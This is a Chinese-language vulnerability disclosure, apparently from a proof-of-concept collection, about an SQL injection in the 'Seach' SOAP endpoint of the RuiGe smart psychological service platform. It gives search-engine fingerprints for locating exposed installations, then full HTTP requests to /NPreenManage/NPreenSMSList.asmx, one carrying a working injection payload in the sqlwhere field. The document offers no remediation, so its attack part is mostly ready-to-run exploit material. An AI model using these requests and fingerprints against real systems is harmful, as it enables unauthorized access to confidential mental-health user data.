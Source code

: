 ### 一、漏洞描述
 瑞格智慧心理服务平台是一家致力于提供个性化心理健康支持的平台。通过先进的AI技术和专业心理学家团队，为用户提供定制化的心理评估和个性化的心理咨询服务。平台注重隐私保护和数据安全，用户可以安全、便捷地接受在线咨询和心理指导，帮助他们理解和应对各种心理健康挑战，提升生活质量和心理健康水平。瑞格智慧心理服务平台Seach存在SQL注入漏洞

### 二、影响版本
智慧平台

### 三、资产测绘
```plain
web.icon=="9d305e4b4f7603ccac03b0e535049ba0"
body="指纹登录\",\"请安装指纹驱动或启动服务"
```

![](images/1719472952366-6389de4f-dc42-45b1-9214-ac525a1d6838.png)

### 四、漏洞复现
```plain
POST /NPreenManage/NPreenSMSList.asmx HTTP/1.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ASP.NET_SessionId=ipfynjgpqv43v02aojsvsmgs
Connection: close
SOAPAction: RuiGe.WebUi.NPreenSMS/Seach
Content-Type: text/xml;charset=UTF-8
Host: 
Content-Length: 313

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ruig="RuiGe.WebUi.NPreenSMS">
   <soapenv:Header/>
   <soapenv:Body>
      <ruig:Seach>
         <!--type: string-->
         <ruig:sqlwhere>-5022 OR 8463 IN (SELECT (CHAR(113)+CHAR(106)+CHAR(107)+CHAR(106)+CHAR(113)+(SELECT (CASE WHEN (8463=8463) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(122)+CHAR(107)+CHAR(98)+CHAR(113)))</ruig:sqlwhere>
      </ruig:Seach>
   </soapenv:Body>
</soapenv:Envelope>
```

![](images/1723621489979-7db7ada5-f286-4daa-b8b3-0f1c4d7d1d45.png)

```plain
POST /NPreenManage/NPreenSMSList.asmx HTTP/1.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ASP.NET_SessionId=ipfynjgpqv43v02aojsvsmgs
Connection: close
SOAPAction: RuiGe.WebUi.NPreenSMS/Seach
Content-Type: text/xml;charset=UTF-8
Host:
Content-Length: 313

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ruig="RuiGe.WebUi.NPreenSMS">
   <soapenv:Header/>
   <soapenv:Body>
      <ruig:Seach>
         <!--type: string-->
         <ruig:sqlwhere>gero et</ruig:sqlwhere>
      </ruig:Seach>
   </soapenv:Body>
</soapenv:Envelope>
```

![](images/1723621324700-68aca7f9-e97c-413a-a89d-eb46b7d83efc.png)

